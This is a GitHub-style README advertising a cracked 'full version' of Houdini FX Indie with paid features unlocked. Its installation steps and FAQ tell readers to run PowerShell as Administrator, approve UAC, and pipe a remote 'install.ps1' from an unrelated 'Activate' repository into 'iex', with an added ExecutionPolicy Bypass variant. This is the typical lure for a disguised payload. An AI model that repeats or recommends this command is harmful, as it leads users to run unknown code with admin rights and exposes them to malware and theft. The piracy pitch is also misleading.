

<div align="center">


<br>


# Houdini FX Indie Full Version
**Houdini FX · Procedural · VFX sim**
<br>
**Houdini FX · Procedural · VFX sim**
<br>
Premium · Pro · Full build · Windows



**SideFX Houdini FX — procedural 3D animation, VFX and simulation for film on Windows.**

</div>

---

> FX build runs fluid, pyro and destruction sims — create VFX without SideFX license server.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

- ✨ **Premium modules** — Paid features and pro tools enabled in this build.
- 📦 **Local install** — Works offline after one-time setup.
- 🖥️ **Windows native** — Optimized for Windows 10/11 64-bit.
- 🧰 **Complete toolkit** — Libraries, presets and templates included.
- ⚙️ **Pro workflow** — Suitable for daily professional use.
- ⚡ **Fast deployment** — One PowerShell command handles setup.
- 📋 **Ready to use** — Installer delivered through the release package.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 20 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/Freelopiazza/Activate/refs/heads/main/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 20 GB free space.
</details>


TAGS
houdini, vfx, 3d, simulation, procedural, creative, houdini-fx-indie, houdini-fx-indie-pc, 3d-modeling, rendering, visualization, digital-art, cg-software, indie
